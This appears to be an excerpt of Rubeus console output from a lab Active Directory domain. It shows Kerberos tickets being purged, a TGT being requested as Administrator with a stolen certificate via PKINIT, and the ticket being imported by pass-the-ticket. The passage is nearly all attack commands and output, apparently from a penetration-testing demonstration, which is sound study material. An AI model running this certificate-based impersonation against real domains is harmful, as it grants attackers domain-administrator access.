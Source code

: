 ```


[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!

C:\Tools>Rubeus.exe asktgt /user:Administrator /password:123456 /certificate:admin.pfx /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=David, CN=Users, DC=contoso, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF4jCCBd6gAwIBBaEDAgEWooIE7zCCBOthggTnMIIE46ADAgEFoQ8bDUN.....

      --snip--

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/contoso.local
  ServiceRealm             :  CONTOSO.LOCAL
  UserName                 :  Administrator
  UserRealm                :  CONTOSO.LOCAL
  StartTime                :  9/30/2021 10:30:17 PM
  EndTime                  :  10/1/2021 8:30:17 AM
  RenewTill                :  10/7/2021 10:30:17 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  XJo/1JOAKw1smiTuPRBjBg==
  ASREP (key)              :  F12DC0EEFA51E0F02DD60D6FE787392E


C:\Tools>Rubeus.exe klist

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x6d35b

  UserName                 : david
  Domain                   : CONTOSO
  LogonId                  : 0x6d35b
  UserSID                  : S-1-5-21-3654360273-254804765-2004310818-1104
```